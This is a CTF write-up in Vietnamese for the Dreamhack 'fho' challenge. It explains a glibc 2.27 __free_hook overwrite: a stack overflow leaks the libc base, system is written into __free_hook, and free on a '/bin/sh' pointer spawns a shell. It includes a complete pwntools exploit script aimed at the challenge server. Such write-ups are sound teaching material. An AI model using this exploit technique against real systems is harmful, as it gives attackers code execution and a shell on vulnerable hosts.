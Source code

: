 ```

```
$ readelf -s /lib/x86_64-linux-gnu/libc-2.27.so | grep -E "__malloc_hook|__free_hook|__realloc_hook"
   221: 00000000003ed8e8     8 OBJECT  WEAK   DEFAULT   35 __free_hook@@GLIBC_2.2.5
  1132: 00000000003ebc30     8 OBJECT  WEAK   DEFAULT   34 __malloc_hook@@GLIBC_2.2.5
  1544: 00000000003ebc28     8 OBJECT  WEAK   DEFAULT   34 __realloc_hook@@GLIBC_2.2.5
```

Độ lệch của các biến này lần lượt là 0x3ed8e8, 0x3ebc30, và 0x3ebc28. Như thấy từ thông tin tiêu đề phần, chúng được đặt trong phần .bss. libc.soVì .bssphần này có thể ghi được nên có thể thao tác các giá trị của các biến này.

```
$ readelf -S /lib/x86_64-linux-gnu/libc-2.27.so | grep -A 1 "\.bss"
  [35] .bss              NOBITS           00000000003ec860  001ec860
       0000000000004280  0000000000000000  WA       0     0     32
```

vào lại bài :

- ở lần nhập đầu tiên ta thấy có overflow , và phía sau đó là print → có thể leak được gì đó
- lần nhập thứ 2 ta cũng thấy nó cho ta nhập vào 1 địa chỉ tùy ý ( ở đây là con trỏ hàm )
- tiếp theo là ghi giá trị của con trỏ hàm ta vừa ghi
- cuối cùng là free(ptr)

![image](https://hackmd.io/_uploads/BkWWIHom1g.png)

từ kĩ thuật trên , hướng khai thác tấn công sẽ là :

leak libc_start_main → libc base


ghi con trỏ hàm muốn ghi vào là __free_hook , v5 sẽ là system , lúc này system đã ghi đè dc free hook

ptr sẽ là con trỏ trỏ đến /bin/sh

script :

```
   
    1 #!/usr/bin/python3
    2 from pwn import *
    3 context.binary = exe = ELF('./fho')
    4 libc =  ELF('./libc-2.27.so',checksec=False)
    5 #p = process(exe.path)
    6 p = remote('host3.dreamhack.games', 17398)
    7 payload = b'a'*72
    8 p.sendafter(b'Buf: ',payload)
    9 p.recvuntil(b'a'*72)
   10 libc_start = u64(p.recv(6).ljust(8,b'\x00'))                                                                                     11 print("libc start main: ",hex(libc_start))
   12 libc.address = libc_start - (libc.sym.__libc_start_main + 231)
   13 print('libc address: ',hex(libc.address))
   14 free_hock = libc.sym.__free_hook
   15 system = libc.sym.system
   16 bin_sh = next(libc.search('/bin/sh\x00'))
   17 p.sendlineafter(b'write: ',str(free_hock))
   18 p.sendlineafter(b'With: ',str(system))
   19 p.sendlineafter(b'free: ',str(bin_sh))
   20 p.interactive()                                                                                                               ~
```
```